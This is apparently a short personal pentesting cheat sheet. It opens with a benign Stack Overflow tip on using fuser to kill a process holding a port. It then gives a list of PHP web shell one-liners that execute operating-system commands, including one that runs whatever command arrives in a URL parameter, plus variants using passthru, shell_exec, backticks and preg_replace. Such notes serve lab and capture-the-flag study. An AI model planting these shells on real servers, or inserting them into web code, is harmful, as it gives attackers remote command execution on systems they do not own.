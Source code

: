 
# Kill a process
How to kill a process running on particular port in Kali Linux ?_?
or
How to kill a process if it show's port already in use ?_?

Stack overflow:
fuser 8080/tcp will print you PID of process bound on that port.
And this fuser -k 8080/tcp will kill that process.

https://stackoverflow.com/questions/11583562/how-to-kill-a-process-running-on-particular-port-in-linux


Web Shells
```
we could other php commands as well
trying all these <@456226577798135808> 
'# Execute one command
<?php system("whoami"); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>'
```


